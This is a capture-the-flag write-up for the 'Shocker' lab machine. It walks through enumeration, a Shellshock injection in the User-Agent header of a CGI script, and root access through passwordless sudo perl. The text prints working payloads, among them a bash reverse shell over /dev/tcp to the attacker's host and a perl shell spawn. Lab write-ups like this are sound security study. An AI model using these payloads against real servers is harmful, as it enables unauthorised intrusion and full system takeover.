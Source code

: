 # Solution

Start with the usual nmap enumeration
```
>nmap -sC -sV -Pn -oN nmap-initial 10.10.10.56
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
|_  256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

The website just returns an image. We use exiftool to see whether it carries some interesting metadata but nothing.  
We run gobuster
```
gobuster dir -u http://10.10.10.56 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 25 -o gobuster.out
```
It didn't produce interesting results.  

We run nikto
```
nikto -host 10.10.10.56 -output nikto.txt
```
We have a line that may be interesting
```
+ Allowed HTTP Methods: POST, OPTIONS, GET, HEAD
```
The OPTIONS method may give us some usefull debug informations.  
We send an OPTIONS request using burp but we don't get any new info, just the allowed methods (that we already know) and the apache version.  

No luck so far. We try to analyse whether apache is vulnerable somehow.  
We don't find any specific vulnerabilities on exploit DB. However the name of the machine is Shocker, so, what about a shellshoke?  

The vulnerability can affect apache servers with CGI scipts enabled. A recurrent directory where the cgi scripts are stored is /cgi-bin/. However gobuster hasn't found any directory at all (expect /server-status), even if cgi-bin is listed in the dictionary. We try to enter /cgi-bin/ manually and it magically worked.  
What happened to gobuster then? It tried /cgi-bin which returns a 404 and not /cgi-bin/ which returns a 403. The -f flag in gobuster would have found the directory in a couple of seconds.  

Now we have a clear road to follow and it seems very promising.  
We can scan inside the directory for the specific file extensions we expect to see.
```
gobuster dir -u http://10.10.10.56/cgi-bin/ -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -t 30 -x cgi,sh,bash,pl   -o gobuster_file.out
```
We find /user.sh. By browsing /cgi-bin/user.sh we receive:
```
Content-Type: text/plain

Just an uptime test script

 06:58:54 up 8 min,  0 users,  load average: 0.06, 0.08, 0.07
```

We try a shellshock attack on this script. We inject our vector in the User Agent field:
```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; echo ciao
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```

As a result we receive an Internal Server Error thus confirming our initial idea. We can now verify by pinging our local machine. We use the (potential) absolute path of ping.  
```
GET /cgi-bin/user.sh HTTP/1.1
Host: 10.10.10.56
User-Agent: () { :; }; /bin/ping -c 2 10.10.14.25
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```
We receive the ping:
```
13:11:43.927461 IP 10.10.10.56 > 10.10.14.25: ICMP echo request, id 1563, seq 1, length 64
13:11:43.927510 IP 10.10.14.25 > 10.10.10.56: ICMP echo reply, id 1563, seq 1, length 64
13:11:44.929017 IP 10.10.10.56 > 10.10.14.25: ICMP echo request, id 1563, seq 2, length 64
13:11:44.929063 IP 10.10.14.25 > 10.10.10.56: ICMP echo reply, id 1563, seq 2, length 64
```

This is the final confirmation that the web server is vulnerable to shellshock. We can modify the vector to spawn a reverse shell.  
First we set up a netcat listener (nc -nlvp 4444). Then we can deliver our new request carrying the TCP reverse shell command:
```
User-Agent: () { :;}; /bin/bash -i >& /dev/tcp/10.10.14.25/4444 0>&1
```

We have a shell under the user shelly. We now want to escalate our privileges.  
This is pretty easy:
```
>>>>shelly@Shocker:/usr/lib/cgi-bin$ sudo -l
sudo -l
Matching Defaults entries for shelly on Shocker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User shelly may run the following commands on Shocker:
    (root) NOPASSWD: /usr/bin/perl
```
It means that shelly can run perl with no password as root.  
We can escalate privileges by running an interactive shell with perl as root.
```
>>>> shelly@Shocker:/usr/lib/cgi-bin$ sudo -u root perl -e 'exec "/bin/sh";'       
sudo -u root perl -e 'exec "/bin/sh";'
>>>> whoami
root
```

